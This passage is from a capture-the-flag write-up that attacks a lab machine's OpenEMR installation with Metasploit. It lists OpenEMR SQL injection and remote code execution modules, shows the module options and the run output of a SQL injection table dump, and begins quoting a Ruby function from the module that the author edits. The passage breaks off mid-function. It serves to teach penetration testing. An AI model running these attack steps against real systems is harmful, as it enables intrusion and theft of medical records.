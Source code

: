       #  Name                                             Disclosure Date  Rank       Check  Description
      -  ----                                             ---------------  ----       -----  -----------
      0  auxiliary/sqli/openemr/openemr_sqli_dump         2019-05-17       normal     Yes    OpenEMR 5.0.1 Patch 6 SQLi Dump
      1  exploit/unix/webapp/openemr_sqli_privesc_upload  2013-09-16       excellent  Yes    OpenEMR 4.1.1 Patch 14 SQLi Privilege Escalation Remote Code Execution
      2  exploit/unix/webapp/openemr_upload_exec          2013-02-13       excellent  Yes    OpenEMR PHP File Upload Vulnerability


We configure the different option, especially the `vhost` and run the exploit.
We quickly get some result and it start to dump the first table out of 295… 295!
This will take forever.

    msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > show options

    Module options (auxiliary/sqli/openemr/openemr_sqli_dump):

      Name       Current Setting  Required  Description
      ----       ---------------  --------  -----------
      Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
      RHOSTS     10.10.10.188     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
      RPORT      80               yes       The target port (TCP)
      SSL        false            no        Negotiate SSL/TLS for outgoing connections
      TARGETURI  /                yes       The base path to the OpenEMR installation
      VHOST      hms.htb          no        HTTP server virtual host


    msf5 auxiliary(sqli/openemr/openemr_sqli_dump) > run
    [*] Running module against 10.10.10.188

    [*] DB Version: 5.7.30-0ubuntu0.18.04.1
    [*] Enumerating tables, this may take a moment...
    [*] Identified 295 tables.
    [*] Dumping table (1/295): CHARACTER_SETS
    ^C[-] Stopping running against current target...
    [*] Control-C again to force quit all targets.

We grab the exploit code on [rapid7 github](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/sqli/openemr/openemr_sqli_dump.rb)
and rewrite the `dump_all` module in order to just list the different tables (we
just comment the lines dumping and saving the tables).

    :::ruby
      def dump_all
        payload = 'version()'
        db_version = exec_payload_and_parse(payload)
        print_status("DB Version: #{db_version}")
        print_status('Enumerating tables, this may take a moment...')
        tables = enumerate_tables
        num_tables = tables.length
        print_status("Identified #{num_tables} tables.")
